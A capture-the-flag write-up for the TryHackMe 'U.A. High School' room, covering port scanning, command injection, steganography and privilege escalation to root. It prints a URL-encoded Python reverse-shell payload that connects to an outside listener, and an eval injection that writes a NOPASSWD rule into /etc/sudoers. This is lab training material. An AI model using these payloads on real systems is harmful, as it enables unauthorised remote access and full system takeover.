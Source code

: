 ```yaml
---
title: Capture - TryHackMe
date: 2025-02-04
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="U.A. High School"
    roomIcon="/ctf/tryhackme/high-school/icon-room.png"
    roomLink="https://tryhackme.com/room/yueiua"
    roomLevel="EASY"
    roomTechnology="Linux"
/>

## Challenge description

Join us in the mission to protect the digital world of superheroes! U.A., the most renowned Superhero Academy, is
looking for a superhero to test the security of our new site.

Our site is a reflection of our school values, designed by our engineers with incredible Quirks. We have gone to great
lengths to create a secure platform that reflects the exceptional education of the U.A.

## Challenge overview

In this challenge, we are tasked with compromising the **U.A. High School** web server and escalating our privileges to
obtain the root flag. The target is a web server running Apache, and we will perform enumeration, identify
vulnerabilities, gain initial access, and escalate privileges to root.

## Enumeration

### Nmap

We start by scanning the target for open ports and services:

```bash
nmap -sC -sV -v -p- -oN high-school.nmap 10.10.25.111
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 582fec23baa9fe818a8e2dd89121d276 (RSA)
|   256 9df263fd7cf32462478afb08b229e2b4 (ECDSA)
|_  256 62d8f8c9600f701f6e11aba03379b55d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **22/tcp** (SSH): OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
- **80/tcp** (HTTP): Apache httpd 2.4.41

### Web Enumeration

#### Discovering the Web Application

Visiting `http://10.10.25.111/` presents the **U.A. High School** homepage.

![U.A. High School home](/ctf/tryhackme/high-school/home-page.png)

The website contains multiple pages:

- **Home**: The main page of the website.
- **About**: Information about the academy.
- **Courses**: List of courses offered.
- **Admissions**: Details about the admission process.
- **Contact us**: Contact form to reach the academy.

Inspecting the source code reveals references to an `assets` directory:

```html
<link rel="stylesheet" href="assets/styles.css">
```

The `assets` directory also contains an `images` folder:

```html
background-image: url(images/yuei.jpg);
```

Attempting to access `http://10.10.25.111/assets/` results in an empty page, which is unusual because directories
typically return an error message when directory listing is disabled.

Adding `index.php` to the URL still results in an empty page:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page.png)

#### Identifying Command Injection

Using `dirsearch` to brute-force file paths:

```bash
dirbsearch -u http://10.10.25.53/assets/index.php
```

We discover a `?cmd` parameter that allows command execution.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-cmd.png)

However, the output is encoded in Base64. Decoding reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-base64.png)

We now have remote command execution.

### Obtaining a Reverse Shell

```bash
curl -s http://10.10.23.54/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.125.246%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

We successfully obtain a reverse shell as `www-data`.

![U.A. High School assets](/ctf/tryhackme/high-school/assets-page-reverse-shell.png)

## Privilege Escalation

### Finding Credentials

Exploring `/var/www/`, we find a `Hide_Content` directory containing `passphrase.txt`:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content.png)

Decoding the Base64 content reveals:

![U.A. High School assets](/ctf/tryhackme/high-school/var-www-hide-content-passphrase.png)

We got the passphrase `AllmightForEver!!!`.

### Steganography on `oneforall.jpg`

A new image, `oneforall.jpg`, is found in `/var/www/images/`.

![U.A. High School assets](/ctf/tryhackme/high-school/images-folder.png)

The image could not load.

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall.png)

Using `steghide` to extract the hidden data, we see we need to enter a passphrase, using the passphrase we found
earlier, but we got an error message:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-steghide.png)

The `steghide: the file format of the file "oneforall.jpg" is not supported.` error message is interesting because it
means that the file is not a `jpg` file. Using `xxd` to see the file header, we see that the file is a `PNG` file:

![U.A. High School assets](/ctf/tryhackme/high-school/images-oneforall-xxd.png)

Using `hexedit` to change the file from `89 50 4E 47 0D 0A 1A 0A` to `FF D8 FF E0 00 10 4A 46`, we can now see the
image:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall.png)

We can extract the hidden data using `steghide`:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-steghide.png)

Looking a the `cred.txt` file we got the credentials for the `deku` user:

![U.A. High School assets](/ctf/tryhackme/high-school/oneforall-cred.png)

We can now login as `deku` and get the user flag:

```bash
$ ssh deku@10.10.25.53
deku@myheroacademia:~$ cat user.txt
THM{USER_FLAG}
```

## Privilege Escalation to Root

Checking sudo permissions:

```bash
deku@myheroacademia:~$ sudo -l
[sudo] password for deku:
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

The script accepts user input and executes it with `eval`, making it vulnerable to command injection.

```bash
deku@myheroacademia:~$ cat /opt/NewComponent/feedback.sh
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

We inject a command to grant sudo access:

```bash
deku@myheroacademia:/opt/NewComponent$ sudo ./feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
deku@myheroacademia:/opt/NewComponent$ sudo cat /root/root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/

THM{ROOT_FLAG}
```